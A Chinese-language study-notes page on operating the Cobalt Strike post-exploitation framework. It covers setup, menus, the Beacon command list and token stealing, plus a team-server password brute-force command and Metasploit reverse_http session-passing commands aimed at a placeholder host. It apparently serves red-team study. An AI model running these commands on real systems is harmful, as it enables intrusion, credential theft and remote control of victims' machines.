






# CobaltStrike

<p align="center">
    
</p>

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**简介**

Cobalt Strike 是一款常用于后渗透的神器，这个工具以团队作为主体，共享信息，拥有多种协议上线方式，集成了端口转发，端口扫描，socket 代理，提权，钓鱼等。除去自身功能外，Cobalt Strike 还利用了 Metasploit 和 Mimikatz 等其他知名工具的功能。

**官网**
- https://www.cobaltstrike.com/

**教程**
- [aleenzz/Cobalt_Strike_wiki](https://github.com/aleenzz/Cobalt_Strike_wiki)
- [Cobalt Strike 4.0 手册翻译](https://blog.ateam.qianxin.com/post/cobalt-strike-40-shou-ce-fan-yi-2019-nian-12-yue-2-ri-geng-xin-ban-ben/)

**文章 & Reference**
- [cobalt strike 快速上手 [ 一 ] - FreeBuf专栏·攻防之路](https://www.freebuf.com/column/149236.html)
- [教你修改cobalt strike的50050端口 - 3HACK](https://www.3hack.com/note/96.html)
- [ryanohoro/csbruter: Cobalt Strike team server password brute force tool](https://github.com/ryanohoro/csbruter)

**工具/插件**

Cobalt Strike可以使用 AggressorScripts脚本来加强自身，能够扩展菜单栏，Beacon命令行，提权脚本等

- [rmikehodges/cs-ssl-gen](https://github.com/rmikehodges/cs-ssl-gen) sslgen 将安装一个 letsencrypt 证书并从中创建一个 Cobalt Strike 密钥库.
- [uknowsec/SharpToolsAggressor](https://github.com/uknowsec/SharpToolsAggressor) - 内网渗透中常用的c#程序整合成cs脚本,直接内存加载.
- [DeEpinGh0st/Erebus](https://github.com/DeEpinGh0st/Erebus) CobaltStrike 后渗透测试插件
- [QAX-A-Team/EventLogMaster](https://github.com/QAX-A-Team/EventLogMaster) - RDP日志取证&清除插件
- [outflanknl/Spray-AD](https://github.com/outflanknl/Spray-AD) - Cobalt Strike工具，用于审核 AD 用户帐户中的弱密码

**爆破 cobaltstrike teamserver**
```bash
git clone https://github.com/ryanohoro/csbruter
cd csbruter
cat wordlist.txt | python3 csbruter.py xxx.xxx.xxx.xxx
```

---

# 安装及维护

**目录结构**
```bash
agscript            # 拓展应用的脚本
c2lint              # 检查profile的错误异常
cobaltstrike
cobaltstrike.jar    # 客户端程序
icon.jpg
license.pdf
readme.txt
releasenotes.txt
teamserver          # 服务端程序
update
update.jar
third-party         # 第三方工具
    - README.vncdll.txt
    - vncdll.x64.dll
    - vncdll.x86.dll
```

**使用**

Cobalt Strike 需要团队服务器才能使用，也就是 teamserver。 需要文件 teamserver 与 cobaltstrike.jar 可以选择把他放在公网上面

- 服务端 teamserver
    ```bash
    ./teamserver <host> <password> [/path/to/c2.profile] [YYYY-MM-DD]
    # 默认只填 host 与 password 即可

	# <host> 是这个 Cobalt Strike 团队服务器的（默认）IP 地址。
	# <password> 是连接到该服务器的共享密码。
	# [/path/to/c2.profile] 是 Malleable C2 配置文件。
	# [YYYY-MM-DD] 是该服务器运行的 Beaco npayloads 的删除日期。
    ```

- 客户端 cobaltstrike

    运行 `start.bat/sh`

    或

    `java -XX:ParallelGCThreads=4 -XX:+AggressiveHeap -XX:+UseParallelGC -Xms512M -Xmx1024M -jar cobaltstrike.jar`

    或

    `java -Dfile.encoding=UTF-8 -javaagent:CobaltStrikeCN.jar -XX:ParallelGCThreads=4 -XX:+AggressiveHeap -XX:+UseParallelGC -jar cobaltstrike.jar`

    或

    `javaw -Dfile.encoding=UTF-8 -javaagent:CobaltStrikeCN.jar -XX:ParallelGCThreads=4 -XX:+AggressiveHeap -XX:+UseParallelGC -jar cobaltstrike.jar`

    

    输入服务端IP、账号、密码,访问服务端

    

---

# 基本使用

## 菜单栏功能

**Cobalt Strike**


```bash
New Connection  # 新连接
Preferences     # 偏好设置,窗口颜色,端口设置，GUI 格式，team server SSL 等
Visualization   # 窗口视图模式
VPN interfaces  # VPN 接入
Listeners       # 监听器
Sript Manager   # 脚本管理
Close           # 退出
```

**View**



```bash
Applications    # 用于显示 System Profiler 获取的目标浏览器，操作系统，flash 版本
Credentials     # 显示所有已经获取的用户主机 hash
Downloads       # 显示下载的文件
Event log       # 事件日志 记录团队  目标上线等记录
Keystrokes      # 目标键盘记录
Proxy Pivots    # 代理信息
Screenshots     # 屏幕截图
Script Console  # 加载自定义脚本
Targets         # 显示所有主机
Web log         # web 服务日志
```

**Attacks**



```bash
Packages
    HTML Application        # 生成 hta 文件
    MS Office Macro         # 宏 office 文件
    Payload Generator       # 生成各种语言版本的 payload
    # USB/CD AutoPlay       利用自动播放运行的被控端文件(cs4.0 中已移除)
    # Windows Dropper       捆绑器可将任意正常的文件(cs4.0 中已移除)
    Windows Executable      # 生成可执行文件 (一般使用这个)
    Windows Executable (S)  # 把包含 payload,Stageless 生成可执行文件(包含多数功能)

Web Drive-by
    Manage                  # 开启的所有 web 服务
    Clone Site              # 克隆网站
    Host File               # 提供 Web 以供下载某文件
    Scripted Web Delivery   # 为 payload 提供 web 服务以便于下载和执行
    Signed Applet Attack    # 启动一个 Web 服务以提供自签名 Java Applet 的运行环境
    Smart Applet Attack     # 自动检测 Java 版本并利用已知的 exploits 绕过 security
    System Profiler         # 获取系统，Flash，浏览器版本等

Spear Phish     # 鱼叉式网络钓鱼
```

**Reporting**



```bash
Activity report             # 活动报告
Hosts report                # 主机报告
Indicators of Compromise    # 威胁报告
Sessions report             # 会话报告
Social engineering report   # 社会工程学报告
```

**右键目标菜单**


```bash
Interact        # 打开beacon
Access
	dump hashes     # 获取 hash
	Elevate         # 提权
	Golden Ticket   # 生成黄金票据注入当前会话
	MAke token      # 凭证转换
    One-liner       # 使用 PowerShell 单行程序来派生会话
	Run Mimikatz    # 运行 Mimikatz
	Spawn As        # 用其他用户生成 Cobalt Strike 侦听器
Explore
	Browser Pivot   # 劫持目标浏览器进程
	Desktop(VNC)    # 桌面交互
	File Browser    # 文件浏览器
	Net View        # 命令Net View
	Port scan       # 端口扫描
	Process list    # 进程列表
	Screenshot      # 截图
Pivoting
	SOCKS Server    # 代理服务
	Listener..      # 反向端口转发
	Deploy VPN      # 部署VPN
Spawn           # 新的通讯模式并生成会话
Session         # 会话管理，删除，心跳时间，退出，备注
    Note...         # 设置注释
    Color           # 设置会话颜色
    Remove          # 删除会话
    Sleep           # 会话休眠
    Exit            # 退出会话
```

---

# Beacon

```bash
beacon> help

Beacon Commands
===============

    Command                   Description
    -------                   -----------
    argue                     Spoof arguments for matching processes
    blockdlls                 Block non-Microsoft DLLs in child processes
    browserpivot              Setup a browser pivot session
    cancel                    Cancel a download that's in-progress
    cd                        Change directory
    checkin                   Call home and post data
    clear                     Clear beacon queue
    connect                   Connect to a Beacon peer over TCP
    covertvpn                 Deploy Covert VPN client
    cp                        Copy a file
    dcsync                    Extract a password hash from a DC
    desktop                   View and interact with target's desktop
    dllinject                 Inject a Reflective DLL into a process
    dllload                   Load DLL into a process with LoadLibrary()
    download                  下载文件
    downloads                 Lists file downloads in progress
    drives                    List drives on target
    elevate                   Spawn a session in an elevated context
    execute                   Execute a program on target (no output)
    execute-assembly          Execute a local .NET program in-memory on target
    exit                      Terminate the beacon session
    getprivs                  Enable system privileges on current token
    getsystem                 尝试获得 system 权限
    getuid                    获取用户ID
    hashdump                  转储密码哈希
    help                      帮助菜单
    inject                    Spawn a session in a specific process
    jobkill                   Kill a long-running post-exploitation task
    jobs                      List long-running post-exploitation tasks
    jump                      Spawn a session on a remote host
    kerberos_ccache_use       Apply kerberos ticket from cache to this session
    kerberos_ticket_purge     Purge kerberos tickets from this session
    kerberos_ticket_use       Apply kerberos ticket to this session
    keylogger                 Inject a keystroke logger into a process
    kill                      杀掉一个进程
    link                      Connect to a Beacon peer over a named pipe
    logonpasswords            Dump credentials and hashes with mimikatz
    ls                        查看目录
    make_token                Create a token to pass credentials
    mimikatz                  运行mimikatz命令
    mkdir                     建立一个目录
    mode dns                  Use DNS A as data channel (DNS beacon only)
    mode dns-txt              Use DNS TXT as data channel (DNS beacon only)
    mode dns6                 Use DNS AAAA as data channel (DNS beacon only)
    mv                        移动文件
    net                       网络和主机枚举工具
    note                      设置注释
    portscan                  扫描网络中的端口
    powerpick                 Execute a command via Unmanaged PowerShell
    powershell                Execute a command via powershell.exe
    powershell-import         导入一个powershell脚本
    ppid                      Set parent PID for spawned post-ex jobs
    ps                        显示进程列表
    psinject                  Execute PowerShell command in specific process
    pth                       使用Mimikatz传递哈希值
    pwd                       打印当前目录
    reg                       查询注册表
    remote-exec               在远程主机上运行一个命令
    rev2self                  Revert to original token
    rm                        Remove a file or folder
    rportfwd                  Setup a reverse port forward
    run                       Execute a program on target (returns output)
    runas                     Execute a program as another user
    runasadmin                Execute a program in an elevated context
    runu                      Execute a program under another PID
    screenshot                截一张截图
    setenv                    设置一个环境变量
    shell                     通过 cmd.exe 执行命令
    shinject                  将 shellcode 注入到进程中
    shspawn                   Spawn process and inject shellcode into it
    sleep                     设置 beacon 睡眠时间
    socks                     启动 SOCKS4a 服务器来中继流量
    socks stop                停止 SOCKS4a 服务器
    spawn                     Spawn a session
    spawnas                   Spawn a session as another user
    spawnto                   Set executable to spawn processes into
    spawnu                    Spawn a session under another process
    ssh                       Use SSH to spawn an SSH session on a host
    ssh-key                   Use SSH to spawn an SSH session on a host
    steal_token               Steal access token from a process
    timestomp                 Apply timestamps from one file to another
    unlink                    Disconnect from parent Beacon
    upload                    上传文件
```

## 权限提升

**令牌假冒**

当你获取了本地计算机的 system 权限后，如果这台机器上有域用户跑的进程，就直接可以窃取域账号的 token，然后从本地用户组跨入域环境。如果这台机器上有域管的开的进程，那么直接 steal token 后就可以登录域控了。
```
steal_token <PID>
```

---

# MSF 与 CS 会话互转

> 以下部分内容来自 <sup>[Cobalt_Strike_wiki/第十六节[MSF与CS会话互转].md](https://github.com/aleenzz/Cobalt_Strike_wiki/blob/master/%E7%AC%AC%E5%8D%81%E5%85%AD%E8%8A%82%5BMSF%E4%B8%8ECS%E4%BC%9A%E8%AF%9D%E4%BA%92%E8%BD%AC%5D.md)</sup>

**MSF 转 CS**

从已经获得 meterpreter 的时候转到 CS 只需要使用的 payload_inject 模块
```bash
meterpreter > background
msf exploit(multi/handler) > use exploit/windows/local/payload_inject
msf exploit(windows/local/payload_inject) > set payload windows/meterpreter/reverse_http
msf exploit(windows/local/payload_inject) > set lhost [host]
msf exploit(windows/local/payload_inject) > set lport [port]
msf exploit(windows/local/payload_inject) > set session [session_id]
msf exploit(windows/local/payload_inject) > set disablepayloadhandler true
msf exploit(windows/local/payload_inject) > exploit -j

# set disablepayloadhandler true 用来禁用 payload handler 的监听否则有冲突。
```

然后 CS 里面配置监听相应 lhost lport 即可

**CS 转 MSF**

CS 转 MSF 只需要用到 spawn 功能

MSF 开启监听
```bash
msf > sessions -l
msf > use exploit/multi/handler
msf exploit(multi/handler) > set set payload windows/meterpreter/reverse_http
msf exploit(multi/handler) > set lhost [host]
msf exploit(multi/handler) > set lport [port]
msf exploit(multi/handler) > exploit
```

目标右键 -> spawn , 添加一个 Foreign 的监听器,在点 choose 弹到 msf




---

# 修改通讯特征

Cobalt Strike 通信配置文件是 Malleable C2 你可以修改 CS 的通讯特征，Beacon payload 的一些行为

---

# 通信扩展

Cobalt Strike 可以引用其他的通讯框架 ExternalC2，ExternalC2 是由 Cobalt Strike 提出的一套规范/框架，它允许黑客根据需要对框架提供的默认 HTTP(S)/DNS/SMB C2 通信通道进行扩展。
